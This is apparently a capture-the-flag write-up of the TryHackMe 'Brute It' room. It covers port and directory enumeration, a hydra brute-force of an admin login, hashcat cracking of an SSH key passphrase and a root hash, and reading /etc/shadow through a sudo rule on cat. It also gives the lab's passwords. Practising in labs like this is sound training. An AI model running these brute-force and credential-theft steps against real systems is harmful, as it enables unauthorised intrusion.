## Topic: Brute It
---

I hope you all are doing good!! In this page we will be learning about the Brute It challenges from Try Hack Me.

In this room we will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

### Target IP Address

* 10.10.210.224

### Enumeration

In the enumeration phase, I used Nmap to scan the target machine for open ports and services. This will help us identify vulnerabilities that can be exploited.

### Ping

First, I pinged the target machine to check if it is online or not.

I pinged the target machine to check whether I can communicate with the target machine or not using the ping command and the target IP address.

    rybnorbu@lenevo-ranjung:~/Downloads$ sudo ping 10.10.210.224
    PING 10.10.210.224 (10.10.210.224) 56(84) bytes of data.
    64 bytes from 10.10.210.224: icmp_seq=1 ttl=61 time=719 ms
    64 bytes from 10.10.210.224: icmp_seq=2 ttl=61 time=744 ms
    64 bytes from 10.10.210.224: icmp_seq=3 ttl=61 time=577 ms
    64 bytes from 10.10.210.224: icmp_seq=4 ttl=61 time=581 ms
    64 bytes from 10.10.210.224: icmp_seq=5 ttl=61 time=602 ms
    64 bytes from 10.10.210.224: icmp_seq=6 ttl=61 time=830 ms
    64 bytes from 10.10.210.224: icmp_seq=7 ttl=61 time=855 ms
    ^C
    --- 10.10.210.224 ping statistics ---
    8 packets transmitted, 7 received, 12.5% packet loss, time 7009ms
    rtt min/avg/max/mdev = 576.548/700.920/855.086/108.419 ms

Yes, the machine is online and I can communicate with it.

Now I scaned the target machine using Nmap to identify open ports and services.

### Nmap

Let's use nmap to see the open ports;

    rybnorbu@lenevo-ranjung:~/Downloads$ sudo nmap -sV 10.10.210.224
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-16 10:39 +06
    Nmap scan report for 10.10.210.224
    Host is up (0.46s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 17.31 seconds

I have 2 ports open:
* http on port 80
* ssh on port 22

When I entered the targrt IP address into the browser I found the Ubuntu default Apache 2 page.



### Brute-force

As the server is running on http server I used ffuf tool to brute force and find the hidden files.

    rybnorbu@lenevo-ranjung:~/Downloads$ ffuf -w /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.210.224/FUZZ

            /'___\  /'___\           /'___\       
        /\ \__/ /\ \__/  __  __  /\ \__/       
        \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
            \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

        v1.1.0
    ________________________________________________

    :: Method           : GET
    :: URL              : http://10.10.210.224/FUZZ
    :: Wordlist         : FUZZ: /home/rybnorbu/SecLists-master/Discovery/Web-Content/common.txt
    :: Follow redirects : false
    :: Calibration      : false
    :: Timeout          : 10
    :: Threads          : 40
    :: Matcher          : Response status: 200,204,301,302,307,401,403
    ________________________________________________

    .htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
    .hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
    .htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
    admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
    index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
    server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
    :: Progress: [4727/4727] :: Job [1/1] :: 76 req/sec :: Duration: [0:01:02] :: Errors: 0 ::

### Result

I have found 3 directory;
* admin
* index.html 
* server-status

Let's check the page `/admin `. When I navigated to that page I found a login page.



I have found something in the source code.



From the comment line I found that the username is `admin` .

I only know the username but what is the password?

I used the `hydra` tool to brute force the login page and find the password. 

    hydra -l admin -P /home/rybnorbu/SecLists-master/Passwords/Leaked-Databases/rockyou.txt 10.10.210.224 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 



Hoorayy!! I found the password, It's xavier.

Then I have loged into the page using the username: admin and password: xavier.



After logging into the page i found a RSA-Private key.

LOL!! We can change this RSA-Private key to hash and get the password by cracking this hash.

I have used this link(https://www.onlinehashcrack.com/tools-private-key-ssh-rsa-dsa-openssh-hash-extractor.php) to convert the RSA-Private key into a hash. 

After doing this I have successfully got the hash.



Now let's crack this hash.

I have saved the hash in a file called hash_rsa_key.txt and used hashcat to crack the hash.

`hashcat -m 22931 -a 0 hash_rsa_key.txt rockyou.txt`



I have found the password. It is `rockinroll`. We can now login via SSH and pop the shell of user named JOHN.

I have save the rsa-private key into a file called "private_key.txt" in "Rsa-private" folder.



As i know the username and the password I can login to the machine using ssh.



I have successfully logged into the machine.

Now, Inorder to find the user.txt file I have navigated into the home directory. Inside the user.txt file I have found the flag.



### Priviledge escalation

Inorder to find the root.txt file I have used this command `sudo -l` to check for permissions.

    john@bruteit:~$ sudo -l
    Matching Defaults entries for john on bruteit:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on bruteit:
        (root) NOPASSWD: /bin/cat

I have found that the user `john` can run the `cat` command as root without a password.

As I have permission to run some commands I used cat command to open the contents of /etc/shadow file which contains the password hashes of all the users including ROOT the user.



The password of the root user is in a hash format. I have saved the hash in a file called root_hash.txt. I have used hashcat to crack the hash.

The hash type is SHA-512 Crypt and Hashcat Mode is 1800.
 


I have used the code `hashcat -m 1800 -a 0 root_hash.txt rockyou.txt` to crack the hash.



The password for the root user is `football`. I have logged in as root user and found the root.txt file.

After switching the user to ROOT using `su root` command I have found the root.txt file Inside the root directory.


